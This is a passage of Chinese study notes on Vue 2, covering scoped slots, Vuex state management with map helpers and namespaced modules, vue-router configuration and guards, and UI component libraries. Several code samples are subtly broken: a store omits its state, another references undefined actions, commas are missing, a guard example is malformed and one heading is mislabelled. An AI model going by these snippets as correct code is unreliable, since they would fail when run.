        <h4 v-for="g in scopeData.games" :key="g">{{g}}</h4>
      </template>
    </Category>
  </div>
</template>
...
```

Category.vue：子组件

```vue
<template>
  <div>
    <!-- 2.指定要插入的位置 -->
    <slot :games="games">没有传入html结构，文字显示</slot>
  </div>
</template>
        
<script>
  export default {
    name:'Category',
    props:['title'],
    //数据在子组件自身
    data() {
      return {
        games:['红色警戒','穿越火线','劲舞团','超级玛丽']
       }
    },
  }
</script>
```


## 3、vuex
### 3.1 vuex 是什么
vuex 是在 Vue 中实现集中式状态（数据）管理的一个 Vue `插件`

vuex 可以对 vue 应用中多个组件的`共享状态（数据`）进行集中式的管理（读/写）

vuex 是一种组件间通信的方式，且适用于`任意组件间通信`

### 3.2 为什么要用 vuex




### 3.3 何时使用 vuex
多个组件需要共享数据时

### 3.4 vuex 的工作原理


### 3.5 搭建vuex环境
1.安装 vuex：`npm i vuex@3`

2.创建文件：```src/store/index.js```

```javascript
//引入Vue核心库
import Vue from 'vue'
//引入Vuex
import Vuex from 'vuex'
//应用Vuex插件
Vue.use(Vuex)

//准备actions对象——响应组件中用户的动作
const actions = {}
//准备mutations对象——修改state中的数据
const mutations = {}
//准备state对象——保存具体的数据
const state = {}

//创建并暴露store
export default new Vuex.Store({
    actions,
    mutations,
    state
})
```

3.在```main.js```中创建vm时传入```store```配置项

```javascript
...
// 1.引入store
import store from './store'

// 创建vm
new Vue({
    el:'#app',
    render: h => h(App),
    // 2.传入store配置项
    store
})
```

### 3.6 基本使用
1.初始化数据、配置`actions`、配置`mutations`，操作文件`store.js`

2.组件中读取vuex中的数据：`$store.state.sum`

3.组件中修改vuex中的数据：`$store.dispatch('action中的方法名',数据)` 或 `$store.commit('mutations中的方法名',数据)`

>  备注：若没有网络请求或其他业务逻辑，组件中也可以越过actions，即不写`dispatch`，直接编写`commit`
>

4.代码示例：

src/store/index.js

```javascript
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

const actions = {
    // 4.配置actions
    jiaOdd(context, value) {
        if (context.state.sum % 2) {
            context.commit('JIA', value)
        }
    }
}
const mutations = {
    // 4.mutations
    JIA(state, value) {
        state.sum += value
    }
}
const state = {
    // 1.初始化数据
    sum: 0,
}

export default new Vuex.Store({
    actions,
    mutations,
    state
})
```

Count.vue

```vue
<template>
  <div>
    <!-- 2.读取vuex中的数据 -->
    <h1>当前求和为：{{$store.state.sum}}</h1>
    <button @click="increment">+</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
  </div>
</template>

<script>
export default {
  name:'Count',
  data(){
    return {
      n:1
    }
  },
  methods:{
    increment(){
      // 3.修改vuex中的数据
      this.$store.commit('JIA',this.n)
    },
    incrementOdd(){
      // 3.修改vuex中的数据  
      this.$store.dispatch('jiaOdd',this.n)
    }
  }
}
</script>

```

### 3.7 getters的使用
1.概念：当 state 中的数据需要经过加工后再使用时，可以使用getters加工（类似于计算属性）

2.基本使用

+ 在`store.js`中追加`getters`配置
+ 配置`getters`内容
+ 组件中读取数据：`$store.getters.bigSum`

3.代码示例:

src/store/index.js

```javascript
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

const getters = {
    // 2.配置getters内容
    bigSum(state) {
        return state.sum * 10
    }
}
const state = {
    sum: 1,
}

export default new Vuex.Store({
    // 1.添加getters配置
    getters
})
```

Count.vue

```vue
<template>
  <div>
    <h1>当前求和为：{{$store.state.sum}}</h1>
    <!-- 2.读取getters数据 -->
    <h1>当前求和放大十倍为：{{$store.getters.bigSum}}</h1>
</template>

<script>
export default {
  name:'Count',
}
</script>
```

### 3.8 四个map方法的使用
#### （1）mapState 方法
1.作用：帮助我们映射```state```中的数据为计算属性，这样我们不用频繁写 `{{$store.state.xxx}}`

2.两种写法

+ 对象写法： `...mapState({sum:'sum',school:'school',subject:'subject'})`
+ 数组写法：`...mapState(['sum','school','subject'])`



3.代码示例：

src/store/index.js

```javascript
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

// 1.准备好数据
const state = {
    school: '家里蹲大学',
    subject: '兽娘的养成指南'
}

export default new Vuex.Store({
    state
})
```

Count.vue

```vue
<template>
  <div>
    <!-- 4.使用数据 -->
    <h1>学校名称：{{school}}</h1>
    <h1>学校专业：{{subject}}</h1>
  </div>
</template>

<script>
// 2.引入mapState
import {mapState} from 'vuex'
export default {
  name:'Count',
  computed:{
    // 3.映射state中的数据
    ...mapState(['school', 'subject'])
  },
}
</script>

```

#### （2）mapGetters 方法
1.作用：帮助我们映射```getters```中的数据为计算属性，这样我们不用频繁写 `{{$store.getters.xxx}}`

2.两种写法

+ 对象写法：`...mapGetters({bigSum:'bigSum'})`
+ 数组写法：`...mapGetters(['bigSum'])`



3.代码示例：                                     

src/store/index.js

```javascript
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

// 1.准备好数据
const getters = {
    bigSum(state) {
        return state.sum * 10
    }
}
const state = {
    sum: 1,
}

export default new Vuex.Store({
    state,
    getters
})
```

Count.vue

```vue
<template>
  <div>
    <!-- 4.使用数据 -->
    <h1>当前求和放大十倍为：{{bigSum}}</h1>
  </div>
</template>

<script>
// 2.引入mapGetters
import {mapGetters} from 'vuex'
export default {
  name:'Count',
  computed:{
    // 3.映射getters中的数据
    ...mapGetters(['bigSum'])
  },
}
</script>
```

#### （3）mapActions 方法
1.作用：帮助我们生成与`dispatch`对话的方法，这样我们不用频繁写 `$store.dispatch(xxx)`

2.两种写法

+ 对象写法：`...mapActions({jiaOdd:'jiaOdd',jiaWait:'jiaWait'})`
+ 数组写法：`...mapActions(['jiaOdd', 'jiaWait'])`



> 备注：mapActions使用时，若需要传递参数需要：在模板中绑定事件时传递好参数，否则参数是事件对象
>

3.代码示例：

src/store/index.js

```javascript
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

const actions = {
    // 1.准备好actions中对应的函数
    jiaOdd(context, value) {
        if (context.state.sum % 2) {
            context.commit('JIA', value)
        }
    },
    jiaWait(context, value) {
        setTimeout(() => {
            context.commit('JIA', value)
        }, 500);
    }
}
const mutations = {
    JIA(state, value) {
        state.sum += value
    }
}
const state = {
    sum: 0
}

export default new Vuex.Store({
    actions,
    mutations,
    state,
})
```

Count.vue

```vue
<template>
  <div>
    <h1>当前求和为：{{$store.state.sum}}</h1>
    <!-- 4.调用函数 -->
    <button @click="jiaOdd(n)">当前求和为奇数再加</button>
    <button @click="jiaWait(n)">等一等在加</button>
  </div>
</template>

<script>
// 2.引入mapActions
import { mapActions } from 'vuex'
export default {
  name:'Count',
  data(){
    return {
      n:0
    }
  }
  methods:{
    // 3.映射actions中对应的函数
    ...mapActions(['jiaOdd', 'jiaWait'])
  }
}
</script>
```

#### （4）mapMutations 方法
1.作用：帮助我们生成与`mutations`对话的方法，这样我们不用频繁写 `$store.commit(xxx)`

2.两种写法

+ 对象写法：`...mapMutations({JIA:'JIA',JIAN:'JIAN'})`
+ 数组写法：`...mapMutations(['JIA','JIAN'])`



> 备注：mapMutations使用时，若需要传递参数需要：在模板中绑定事件时传递好参数，否则参数是事件对象
>

3.代码示例：

src/store/index.js

```javascript
import Vue from 'vue'
import Vuex from 'vuex'
Vue.use(Vuex)

const mutations = {
     // 1.准备好mutations中对应的函数
    JIA(state, value) {
        console.log('mutations中的JIA被调用了', state, value);
        state.sum += value
    },
    JIAN(state, value) {
        console.log('mutations中的JIAN被调用了', state, value);
        state.sum -= value
    }
}
const state = {
    sum: 0
}

export default new Vuex.Store({
    actions,
    mutations,
    state,
})
```

Count.vue

```javascript
<template>
  <div>
    <h1>当前求和为：{{$store.state.sum}}</h1>
    <!-- 4.调用函数 -->
    <button @click="JIA(n)">+</button>
    <button @click="JIAN(n)">-</button>
  </div>
</template>

<script>
// 2.mapMutations
import { mapMutations } from 'vuex'
export default {
  name:'Count',
  data(){
    return {
      n:0
    }
  },
  methods:{
    // 3.映射mutations中对应的函数
    ...mapMutations(['JIA', 'JIAN']),
  }
}
</script>
```

### 8.模块化+命名空间
1.目的：让代码更好维护，让多种数据分类更加明确

2.基本使用

（1）按照功能将 `src/store/index.js` 拆分，并开启命名空间 `namespaced:true`

```javascript
const countAbout = {
  namespaced:true,//开启命名空间
  state:{ ... },
  mutations: { ... },
  actions: { ... },
  getters: { ... }
}

const personAbout = {
  namespaced:true,//开启命名空间
  state:{ ... },
  mutations: { ... },
  actions: { ... }
}

const store = new Vuex.Store({
  modules: {
    countAbout,
    personAbout
  }
})
```

（2）开启命名空间后，组件中读取 `state` 数据：

```javascript
//方式一：自己直接读取
this.$store.state.personAbout.list
//方式二：借助mapState读取：
...mapState('countAbout',['sum','school','subject']),
```

（3）开启命名空间后，组件中读取 `getters` 数据：

```javascript
//方式一：自己直接读取
this.$store.getters['personAbout/firstPersonName']
//方式二：借助mapGetters读取：
...mapGetters('countAbout',['bigSum'])
```

（4）开启命名空间后，组件中调用 `dispatch`

```javascript
//方式一：自己直接dispatch
this.$store.dispatch('personAbout/addPersonWang',person)
//方式二：借助mapActions：
...mapActions('countAbout',{incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
```

（5）开启命名空间后，组件中调用 `commit`

```javascript
//方式一：自己直接commit
this.$store.commit('personAbout/ADD_PERSON',person)
//方式二：借助mapMutations：
...mapMutations('countAbout',{increment:'JIA',decrement:'JIAN'}),
```

## 4、vue-router
`vue-router` 也叫【路由】，是 vue 的一个插件库，专门用来实现 `SPA 应用`

### 4.1 什么是 SPA 应用
1.单页 Web 应用（single page web application，SPA）

2.整个应用只有`一个完整的页面`

3.点击页面中的导航链接`不会刷新页面`，只会做页面的`局部更新`

4.数据需要通过 ajax 请求获取

### 4.2 什么是路由


### 4.3 路由分类
1.后端路由：

+ 理解：value 是 function, 用于处理客户端提交的请求
+ 工作过程：服务器接收到一个请求时, 根据请求路径找到匹配的函数来处理请求, 返回响应数据

2.前端路由：

+ 理解：value 是 component，用于展示页面内容
+ 工作过程：当浏览器的路径改变时, 对应的组件就会显示



### 4.4 基本使用
1.安装 vue-router，命令：`npm i vue-router@3`

2.创建文件`src/router/index.js`，并编写router配置项:

```javascript
//引入VueRouter
import VueRouter from 'vue-router'
//引入组件
import About from '../components/About'
import Home from '../components/Home'

//创建并暴露router实例对象，去管理一组一组的路由规则
export default new VueRouter({
    routes:[
        {
            path:'/about',
            component:About
        },
        {
            path:'/home',
            component:Home
        }
    ]
})
```

3.在 main.js 引入并应用 router

```javascript
import Vue from 'vue'
import App from './App.vue'
// 1.引入VueRouter
import VueRouter from 'vue-router'
// 2.引入路由器
import router from './router'
// 3.应用插件
Vue.use(VueRouter)

Vue.config.productionTip = false

new Vue({
    el: '#app',
    render: h => h(App),
    // 4.传入router配置项
    router
})
```

4.实现切换（active-class可配置高亮样式）

```vue
<router-link active-class="active" to="/about">About</router-link>
```

6.指定展示位置

```vue
<router-view></router-view>
```

### 4.5 几个注意点
1.路由组件通常存放在```pages```文件夹，一般组件通常存放在```components```文件夹

2.通过切换，“隐藏”了的路由组件，默认是被销毁掉的，需要的时候再去挂载

3.每个组件都有自己的```$route```属性，里面存储着自己的路由信息

4.整个应用只有一个router，可以通过组件的```$router```属性获取到

### 4.6 多级路由
多级路由的配置与基本配置步骤一致，当是要注意以下两点：

1.配置路由规则，要使用 `children` 配置项：

```javascript
routes:[
    {
        path:'/about',
        component:About,
    },
    {
        path:'/home',
        component:Home,
        children:[ //通过children配置子级路由
            {
                path:'news', //此处一定不要写：/news
                component:News
            },
            {
                path:'message',//此处一定不要写：/message
                component:Message
            }
        ]
    }
]
```

2.跳转时必须写完整路径

```vue
<router-link to="/home/news">News</router-link>
```


### 4.7 路由的 query 参数
1.传递参数

```vue
<!-- 跳转并携带query参数，to的字符串写法 -->
<router-link :to="/home/message/detail?id=666&title=你好">跳转</router-link>
                
<!-- 跳转并携带query参数，to的对象写法 -->
<router-link 
    :to="{
        path:'/home/message/detail',
        query:{
           id:666,
            title:'你好'
        }
    }"
>跳转</router-link>
```

2.接收参数：

```javascript
$route.query.id
$route.query.title
```

### 4.8 命名路由
1.作用：可以简化路由的跳转

2.如何使用

（1）给路由命名：

```javascript
{
    path:'/demo',
    component:Demo,
    children:[
        {
            path:'test',
            component:Test,
            children:[
                {
                    name:'hello' //给路由命名
                    path:'welcome',
                    component:Hello,
                }
            ]
        }
    ]
}
```

（2）简化跳转：

```vue
<!--简化前，需要写完整的路径 -->
<router-link to="/demo/test/welcome">跳转</router-link>

<!--简化后，直接通过名字跳转 -->
<router-link :to="{name:'hello'}">跳转</router-link>

<!--简化写法配合传递参数 -->
<router-link 
    :to="{
        name:'hello',
        query:{
           id:666,
            title:'你好'
        }
    }"
>跳转</router-link>
```

### 4.9 路由的 params 参数
1.配置路由，声明接收 params 参数

```javascript
{
    path:'/home',
    component:Home,
    children:[
        {
            path:'news',
            component:News
        },
        {
            component:Message,
            children:[
                {
                    name:'xiangqing',
                    path:'detail/:id/:title', //使用占位符声明接收params参数
                    component:Detail
                }
            ]
        }
    ]
}
```

2.传递参数

```vue
<!-- 跳转并携带params参数，to的字符串写法 -->
<router-link :to="/home/message/detail/666/你好">跳转</router-link>

                
<!-- 跳转并携带params参数，to的对象写法 -->
<router-link 
    :to="{
        name:'xiangqing',
        params:{
           id:666,
            title:'你好'
        }
    }"
>跳转</router-link>
```

> 特别注意：路由携带params参数时，若使用to的对象写法，则不能使用path配置项，必须使用name配置！
>

3.接收参数：

```javascript
$route.params.id
$route.params.title
```

### 4.10 路由的 props 配置
1.作用：让路由组件更方便的收到参数，这样我们不用频繁写 `$route.params.xxx` 和  `$route.query.xxx`

2.基本使用

（1）在 `/src/router/index.js` 配置 props

```javascript
...
{
    name:'xiangqing',
    path:'detail/:id',
    component:Detail,

    //第一种写法：props值为对象，该对象中所有的key-value的组合最终都会通过props传给Detail组件
    // props:{a:900}

    //第二种写法：props值为布尔值，布尔值为true，则把路由收到的所有params参数通过props传给Detail组件
    // props:true
    
    //第三种写法：props值为函数，该函数返回的对象中每一组key-value都会通过props传给Detail组件
    props($route){
        return {
            id:$route.params.id,
            title:$route.params.title
        }
    }
}
```

（2）在 `Detail.vue` 配置 props

```javascript
...
export default {
    name:'Detail',
    props:['id','title']
}
...
```

（3）接收数据

```vue
<template>
  <ul>
    <li>消息编号：{{id}}</li>
    <li>消息标题：{{title}}</li>
  </ul>
</template>
```

### 4.11 replace 属性
1. 作用：`<router-link>`的 `replace` 属性可以控制路由跳转时操作浏览器历史记录的模式
2. 浏览器的历史记录有两种写入方式：分别为`push`和`replace`，`push`是追加历史记录，`replace`是替换当前记录。路由跳转时候默认为`push`
3. 如何开启`replace`模式：`<router-link replace ... >News</router-link>`

### 4.12 编程式路由导航
1.作用：不借助`<router-link> `，而是通过编码实现路由跳转，让路由跳转更加灵活

2.两个用于跳转的API

（1）`$router.push()`：路由跳转时以 `push` 模式保存浏览器历史记录

```javascript
this.$router.push({
    name:'xiangqing',
        params:{
            id:xxx,
            title:xxx
        }
})
```

（2）`$router.replace()`：路由跳转时以 `replace` 模式保存浏览器历史记录

```javascript
this.$router.replace({
    name:'xiangqing',
        params:{
            id:xxx,
            title:xxx
        }
})
```

3.三个用于操作浏览器历史记录的API

+ `this.$router.forward()`：前进一步
+ `this.$router.back()`：后退一步
+ `this.$router.go(数字)`：可前进也可后退 参数是number类型(正数为前进的步数,负数为后退的部署)

### 4.13 缓存路由组件
1.作用：让不展示的路由组件保持挂载，不被销毁

2.具体编码：

```vue
<!-- 缓存一个 -->
<keep-alive include="News"> 
    <router-view></router-view>
</keep-alive>

<!-- 缓存多个 -->
<keep-alive include="['News','Message']"> 
    <router-view></router-view>
</keep-alive>
```

> 注意：`include="xxx"`，`xxx` 是组件名称，如果不写 `include` ，所有被` <keep-alive> `的路由组件都不会被销毁
>

### 4.14 两个新生命周期钩子
1.作用：路由组件所独有的两个钩子，用于捕获路由组件的激活状态。

2.具体名字：

+ `activated` ：路由组件被激活时触发
+ `deactivated`：路由组件失活时触发

### 4.15 路由守卫
1.作用：对路由进行权限控制

2.分类：全局守卫、独享守卫、组件内守卫

#### （1）全局守卫
1.两种全局守卫

+ 全局前置守卫（beforeEach）：初始化时执行、每次路由切换前执行
+ 全局后置守卫（afterEach）：初始化时执行、每次路由切换后执行

2.全局前置守卫

写法：`router.beforeEach((to,from,next)=>{...})`

参数说明：

+ to：一个对象，里面包含着`目标路由`的信息
+ from：一个对象，里面包含着`起始路由`的信息
+ next：一个函数，控制是否`放行`

代码示例：

```javascript
...
const router = new VueRouter(...)
                             
router.beforeEach((to,from,next)=>{
    console.log('beforeEach',to,from)
    if(to.meta.isAuth){ //判断当前路由是否需要进行权限控制
        if(localStorage.getItem('name') === 'zhangsan'){ //权限控制的具体规则
            next() //放行
        }else{
            alert('暂无权限查看')
            // next({name:'guanyu'})
        }
    }else{
        next() //放行
    }
})

export default router
```

3.全局前置守卫

写法：`router.afterEach((to,from,next)=>{...})`

参数说明：

+ to：一个对象，里面包含着`目标路由`的信息
+ from：一个对象，里面包含着`起始路由`的信息-

代码示例:

```javascript
...
const router = new VueRouter(...)
                             
router.afterEach((to,from)=>{
    console.log('afterEach',to,from)
    if(to.meta.title){ 
        document.title = to.meta.title //修改网页的title
    }else{
        document.title = 'vue_test'
    }
})

export default router
```

#### （2）独享守卫
1.说明：独享守卫是写在路由规则内部的路由守卫

2.代码示例

```javascript
...
const router = new VueRouter(
    route:[
        name: 'about',
        path: '/about',
        beforeEnter(to,from,next){
            if(to.meta.isAuth){ //判断当前路由是否需要进行权限控制
                if(localStorage.getItem('school') === 'jialidun'){
                    next()
                }else{
                    alert('暂无权限查看')
                    // next({name:'zhangsan'})
                }
            }else{
                next()
            }
        }
    ]
)

export default router
```

#### （3）组件内守卫
1.说明：组件内守卫是写在组件里面的路由守卫

2.两种组件内守卫

+ 进入守卫（beforeRouteEnter）：通过路由规则，进入该组件时被调用
+ 离开守卫（beforeRouteLeave）：通过路由规则，离开该组件时被调用

3.代码示例

```vue
<script>
    export default {
        name: "About",
        beforeRouteEnter (to, from, next) {},
        beforeRouteLeave (to, from, next) {}
    }
</script>
```

### 4.16 路由器的两种工作模式
1.对于一个url来说，什么是hash值？—— #及其后面的内容就是hash值

2.hash值不会包含在 HTTP 请求中，即：hash值不会带给服务器

3.hash模式：

+ 地址中永远带着#号，不美观 
+ 若以后将地址通过第三方手机app分享，若app校验严格，则地址会被标记为不合法
+ 兼容性较好。

4.history模式：

+ 地址干净，美观 
+ 兼容性和hash模式相比略差
+ 应用部署上线时需要后端人员支持，解决刷新页面服务端404的问题

## 5、element-ui
### 5.1 移动端常用 UI 组件库
+ Vant：[https://youzan.github.io/vant](https://youzan.github.io/vant) 
+ Cube UI：[https://didi.github.io/cube-ui](https://didi.github.io/cube-ui) 
+ Mint UI：[http://mint-ui.github.io](http://mint-ui.github.io)

### 5.2 PC 端常用 UI 组件库
+ Element UI：[https://element.eleme.cn](https://element.eleme.cn) 
+ IView UI： [https://www.iviewui.com](https://www.iviewui.com)
